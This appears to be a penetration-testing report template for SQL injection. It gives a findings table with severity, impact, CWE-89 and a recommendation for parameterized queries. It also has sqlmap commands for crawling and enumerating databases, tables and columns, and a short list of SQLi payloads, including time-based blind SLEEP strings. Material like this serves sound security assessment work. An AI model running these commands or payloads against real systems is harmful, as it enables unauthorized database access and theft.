 ### SQL Injection

| Vulnerability          | SQL Injection                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|:---------------------- |:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**           | **HIGH**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| **Affected URL**       | <insert the affected url\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Tools**              | Burp Suite, [SQLmap](https://github.com/gh1mau/vapt/blob/main/poc/sql_injection.md#sqlmap)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| **Techniques/ Method** | URL Fuzzing, Parameter Tampering                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Proof of Concept**   | <insert POC screenshot\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| **Payload\(s\)**       | [List of possible payload]()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| **Description**        | SQL injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements that control a web application's database server.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| **Impact**             | An attacker can use SQL injection it to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| **CVE/CWE/OSVDB**      | CWE-89                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| **Recommendation**     | **Use parameterized queries when dealing with SQL queries that contains user input. Parameterized queries allows the database to understand which parts of the SQL query should be considered as user input, therefore solving SQL injection.**<br/><br/>In order for an SQL injection attack to take place, the vulnerable website needs to directly include user input within an SQL statement. An attacker can then insert a payload that will be included as part of the SQL query and run against the database server.<br/>Parameterized queries are simple to write and understand while forcing a developer to define the entire SQL statement before hand, using placeholders for the actual variables within that statement. A developer would then pass in each parameter to the query afer the SQL statement is defined, allowing the database to be able to distinguish between the SQL command and data inputted by a user. If SQL commands are inputted by an attacker, the parameterized query would treat the input as a string as opposed to an SQL command.<br/>Application developers should avoid sanitizing their input by means of escaping or removing special characters (several encoding tricks an attacker could leverage to bypass such protections) and stick to using parameterized queries in order to avoid SQL injection vulnerabilities. |
| References             | [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)<br/>[Bobby Tables: A guide to preventing SQL injection](https://bobby-tables.com/)<br/>[CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |

---

### Tools :

#### SQLmap

Reference: [Usage · sqlmapproject/sqlmap Wiki · GitHub](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

```bash
# crawl and pipe to proxy(burp)
$ sqlmap -u "http://localhost" --forms --batch --crawl=10 --level=5 --risk=3
$ sqlmap -r myapps --proxy=http://127.0.0.1:8080 --random-agent --level=5 --risk=3

# time based , mysql dbms
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbms=mysql --technique=T

# enumeration(list out databases):
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbs

# enumeration(list out tables from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db --tables

# enumeration(list out columns from sample_table from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db -T sample_table --columns
```

---

### Possible Payloads

```sql
-1' OR 3*2*1=6 AND 000666=000666 --

# time-based blind
5555' AND (SELECT 3841 FROM (SELECT(SLEEP(5)))BQTt)-- 

OfoO'||(SELECT 0x77416d57 FROM DUAL WHERE 7899=7899 AND (SELECT 1651 FROM (SELECT(SLEEP(5)))yxfO))
```
